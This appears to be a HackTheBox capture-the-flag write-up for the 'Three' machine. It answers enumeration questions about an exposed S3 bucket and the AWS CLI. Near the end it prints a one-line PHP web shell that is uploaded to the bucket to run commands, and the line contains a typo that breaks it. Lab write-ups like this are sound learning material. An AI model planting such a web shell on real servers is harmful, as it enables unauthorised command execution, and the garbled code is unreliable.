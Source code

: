 ```yaml
---
title: "Three"
description: A writeup on the machine Three from HackTheBox Starting point Tier1 level 
date: 2024-09-20
draft: false # this section allows the post to be published and be public, is it is set to true the post will not be published.
summary: "Why did the S3 bucket break up with the EC2 instance?  Because it found someone with less latency! 😄" # Here you can write a small summary of the post if needed
tags: [HTB, Very Easy ]
categories: [Tier1, Starting point]
---
```

# Introduction

![FZaL4tPWYAEN9lS.jpg](FZaL4tPWYAEN9lS.jpg)

## Task 1

How many TCP ports are open?

![image.png](image.png)

2

## Task 2

What is the domain of the email address provided in the "Contact" section of the website? 

![image.png](image%201.png)

thetoppers.htb 

## Task 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? 

![image.png](image%202.png)

```jsx
/etc/hosts directory
```

## Task 4

Which sub-domain is discovered during further enumeration? 

![image.png](image%203.png)

s3

## Task 5

Which service is running on the discovered sub-domain? 

```jsx
Amazon s3
```

## Task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain? 

![image.png](image%204.png)

awscli

## Task 7

Which command is used to set up the AWS CLI installation? 

```jsx
aws configure
```

## Task 8

What is the command used by the above utility to list all of the S3 buckets? 

![image.png](image%205.png)

```jsx
aws s3 ls
```

## Task 9

This server is configured to run files written in what web scripting language? 

![image.png](image%206.png)

PHP

for obtaining the root flag, we had to write a small php code that would prompt a cmdlet for us to get the flag, however, we had to upload the code to the s3 bucket inorder to be able to access it.

The code we shall use is as follows.

```jsx
<?php system(_$GET['cmd']); ?>
```

![image.png](image%207.png)

we shall then access the shell.php file form the url in order to get our root flag

![image.png](image%208.png)

![image.png](image%209.png)

![image.png](image%2010.png)

and with that, we have pawned the machine.